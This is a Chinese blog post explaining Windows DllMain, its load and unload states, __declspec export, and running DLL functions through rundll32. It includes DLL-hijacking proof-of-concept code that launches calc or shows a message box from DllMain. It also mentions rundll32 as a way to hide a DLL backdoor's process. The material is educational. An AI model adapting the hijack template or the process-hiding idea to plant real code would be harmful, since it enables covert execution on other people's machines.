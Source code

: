 ```yaml
---
categories:
- Windows编程技术
date: "2019-10-02T00:00:00Z"
description: 深入了解一下DllMain
title: DllMain与rundll32详解
url: /archivers/2019-10-02/1
---
```


## 0x00 DllMain

对于动态链接库，DllMain是一个**可选的**入口函数。

### 程序调用DLL中的导出函数的流程

- 程序调用Windows API `LoadLibrary` 
- 操作系统寻找LoadLibrary所加载的DLL文件
- 操作系统将DLL文件加载至目标程序进程的内存空间
- 程序自动调用`DllMain`函数
- 程序调用DLL中导出函数

**如果DLL被多次`LoadLibrary`，那么`DllMain`只执行一次，引用基数+1。**

### DllMain的原型

```c++
BOOL WINAPI DllMain(
  _In_ HINSTANCE hinstDLL, // 指向自身的句柄
  _In_ DWORD fdwReason, // 调用原因
  _In_ LPVOID lpvReserved // 隐式加载和显式加载
);
```

## 0x01 DllMain调用原因

其中`fdwReason`用来表示Dll被调用的状态，一共分为四种：

- DLL_PROCESS_ATTACH 被进程加载
- DLL_PROCESS_DETACH 被进程释放
- DLL_THREAD_ATTACH  被线程加载
- DLL_THREAD_DETACH  被线程释放

在DllMain中通常为了捕获DLL被调用的方式来进行某些动作：

```c++
BOOL APIENTRY DllMain( HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
　switch (ul_reason_for_call)
　{
　　case DLL_PROCESS_ATTACH:
　　　printf("\nprocess attach of dll");
　　　break;
　　case DLL_THREAD_ATTACH:
　　　printf("\nthread attach of dll");
　　　break;
　　case DLL_THREAD_DETACH:
　　　printf("\nthread detach of dll");
　　　break;
　　case DLL_PROCESS_DETACH:
　　　printf("\nprocess detach of dll");
　　　break;
　}
　return TRUE;
}
```

## 0x02 那些用于测试DLL劫持的DllMain POC

- https://cxsecurity.com/issue/WLB-2018090232
- https://cxsecurity.com/issue/WLB-2015010114

在测试很多DLL劫持的漏洞时，都喜欢用DllMain，是因为DllMain被进程加载或者释放都会自动调用运行。

```c++
#include <windows.h>

BOOL WINAPI DllMain (
            HANDLE    hinstDLL,
            DWORD     fdwReason,
            LPVOID    lpvReserved)
{
    switch (fdwReason)
  {
  case DLL_PROCESS_ATTACH:
    owned();
  case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
  break;
  }
  return TRUE;
}

int owned() {
  MessageBox(0, "iExplorer DLL Hijacked\Hadji Samir", "POC", MB_OK);
}

#include <windows.h>
#define DLLIMPORT __declspec (dllexport)
 
DLLIMPORT void HrCreateConverter() { evil(); }
 
int evil()
{
  WinExec("calc", 0);
  exit(0);
  return 0;
}

```

## 0x03 __declspec


`__declspec`是Microsoft VC中专用的关键字，它配合着一些属性可以对标准C/C++进行扩充。`__declspec`关键字应该出现在声明的前面。

`__declspec(dllexport)`用于Windows中的动态库中，声明导出函数、类、对象等供外面调用，省略给出.def文件。即将函数、类等声明为导出函数，供其它程序调用，作为动态库的对外接口函数、类等。


`__declspec(dllimport)`用于Windows中，从别的动态库中声明导入函数、类、对象等供本动态库或exe文件使用。当你需要使用DLL中的函数时，往往不需要显示地导入函数，编译器可自动完成。


## 0x04 关于rundll32

Rundll32.exe是什么？顾名思意，"执行32位的DLL文件"。它的作用是执行DLL文件中的内部函数，这样在进程当中，只会有Rundll32.exe，而不会有DLL后门的进程，这样，就实现了进程上的隐藏。

-- 百度百科


经过如上解释，可以总结为，rundll32能够运行一个32位的dll文件，并且在进程列表中只能看到rundll32.exe，但是遍历rundll32.exe的模块列表可以看到进程加载的dll。

-----------------------

**并不是所有的dll都能够被rundll32运行。** 为何这么说，因为rundll32只支持特定的函数声明方式，并且该函数必须在dll文件的导出表中。关于导出表的知识可以阅读 - 《Windows PE权威指南》 👍

rundll32.exe支持的函数原型如下：

```
VOID CALLBACK FunctionName (HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow);
```

通过原型可以发现，与Windows平台下的`WinMain`一模一样，可以理解为rundll32调用的函数就是一段代码的入口函数。


下面来写一个支持rundll32运行的dll：

1. 使用visual studio新建一个dll工程，并声明函数：`rundll`

```
#include <Windows.h>


extern "C" __declspec(dllexport) void rundll(HWND hwnd,HINSTANCE hinst,LPTSTR lpCmdLine,INT nCmdShow){

	MessageBox(NULL,TEXT("-Test-"),TEXT("Rundll32"),MB_OK);

}
```

![2019-10-02-19-58-36](https://images.payloads.online/75e720c2-4f5f-11ec-9c41-00d861bf4abb.png)

2. 使用rundll32运行dll

![2019-10-02-20-00-18](https://images.payloads.online/76283bde-4f5f-11ec-93a3-00d861bf4abb.png)


通过进程列表查看：

![2019-10-02-20-00-54](https://images.payloads.online/76705fd6-4f5f-11ec-b23c-00d861bf4abb.png)

![2019-10-02-20-04-38](https://images.payloads.online/76b1dda8-4f5f-11ec-8072-00d861bf4abb.png)

使用`wmic process get commandline`也可以获得命令行详情：

![2019-10-02-20-02-49](https://images.payloads.online/76f1a816-4f5f-11ec-8683-00d861bf4abb.png)

还有一种方式是获得该进程加载的模块，这是最精确的了；但windows 7不能直接看到，需要借助工具。（win10可以通过任务查看器看到..）

![2019-10-02-20-08-24](https://images.payloads.online/772f8302-4f5f-11ec-ae6b-00d861bf4abb.png)


**这个dll是没有DllMain也能够正常运行的，并不是所有的dll都有DllMain这个函数**


我经过实验后发现，一个dll有没有DllMain完全取决于当前这个dll对于功能的需求，如果对装载方式的状态没有特定的要求，完全可以省去编写DllMain，因为DllMain不是一个导出函数，永远是一个由系统被动调用的函数。